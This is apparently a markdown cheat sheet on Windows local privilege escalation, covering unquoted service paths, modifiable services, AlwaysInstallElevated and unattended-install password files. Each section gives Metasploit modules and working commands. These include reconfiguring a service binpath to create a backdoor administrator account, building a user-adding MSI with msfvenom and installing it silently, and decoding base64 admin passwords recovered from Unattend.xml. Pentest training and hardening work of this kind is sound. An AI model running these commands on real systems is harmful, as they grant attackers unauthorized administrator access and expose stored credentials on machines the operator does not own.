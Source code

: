 # Other Techniques

## Trusted Service Paths
If a path to an executable is not in quotations and has spaces in it, take a look!  

#### URLs:
1. https://toshellandback.com/2015/11/24/ms-priv-esc/

#### Metasploit:
        exploit/windows/local/trusted_service_path

#### Steps:

1. List all unquoted paths, containing spaces.

        wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

        --> C:\Program Files (x86)\Privacyware\Privatefirewall 7.0\pfsvc.exe

    https://technet.microsoft.com/en-us/library/cc753525(v=ws.11).aspx

2. Check the permission on the path.

        icacls "C:\Program Files (x86)\Privacyware"

3. Service permissions.

        accesschk.exe -uwcqv SERVICE_NAME

## Vulnerable Services
Ability to modify windows services, their properties.

#### URLs:
1. https://toshellandback.com/2015/11/24/ms-priv-esc/

#### Metasploit
        exploit/windows/local/service_permissions

#### Steps:

1. Check services, allowed to be modified...

    1a) by any user

        accesschk.exe -uwcqv "Authenticated Users" * /accepteula

    1b) by your low privilege user

        accesschk.exe -uwcqv "USERNAME" * /accepteula

2. If we find "SERVICE_ALL_ACCESS", we are winning!

        RW PFNET
            SERVICE_ALL_ACCESS

3. Utilize service control (SC)

        sc qc PFNET (PROCESS_NAME)

4. Add root user

        sc config PFNET binpath= "net user rottenadmin P@ssword123! /add"
        sc stop PFNET
        sc start PFNET
        sc config PFNET binpath= "net localgroup Administrators rottenadmin /add"
        sc stop PFNET
        sc start PFNET

## AlwaysInstallElevated

#### URLs:
1. https://toshellandback.com/2015/11/24/ms-priv-esc/

#### Metasploit:
        exploit/windows/local/always_install_elevated

#### Steps:

1. Check registry keys

        reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
        reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

    Should be both on 0x1

2. Add new user, create msi-file.

        msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o rotten.msi

3. Run the msi-file

        msiexec /quiet /qn /i PATH_TO_MSI_FILE

## Unattended Installs

#### URLs:
1. https://toshellandback.com/2015/11/24/ms-priv-esc/

#### Metasploit:
        post/windows/gather/enum_unattend

#### Steps:

1. Directories to search for the files.

        C:\Windows\Panther\
        C:\Windows\Panther\Unattend\
        C:\Windows\System32\
        C:\Windows\System32\sysprep\

    In addition to Unattend.xml files, be on the lookout for sysprep.xml and sysprep.inf files on the file system.

2. Search for "<UserAccounts>"-tag

        <UserAccounts>
            <LocalAccounts>
                <LocalAccount>
                    <Password>
                        <Value>UEBzc3dvcmQxMjMhUGFzc3dvcmQ=</Value>
                        <PlainText>false</PlainText>
                    </Password>
                    <Description>Local Administrator</Description>
                    <DisplayName>Administrator</DisplayName>
                    <Group>Administrators</Group>
                    <Name>Administrator</Name>
                </LocalAccount>
            </LocalAccounts>
        </UserAccounts>

3. Decode the password

        echo "BASE64_STRING" | base64 -d

    Remove the "Password" at the end, it is always appended.
